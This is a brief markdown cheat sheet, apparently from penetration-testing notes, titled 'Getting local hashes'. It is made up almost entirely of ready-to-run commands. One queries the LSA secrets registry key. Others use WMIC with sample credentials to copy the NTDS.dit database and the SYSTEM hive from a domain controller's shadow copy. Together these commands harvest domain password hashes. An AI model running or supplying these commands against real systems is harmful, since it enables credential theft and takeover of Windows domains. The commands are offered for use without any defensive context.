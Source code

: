 # Getting local hashes

Secrets

```
reg query HKLM\Security\Policy\Secrets
```

## WMIC

Note, remove creds to run locally.

```
wmic /node:dc /user:leon /password:password1 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"

wmic /node:dc /user:domain\leon /password:pentest! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"

wmic process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
```
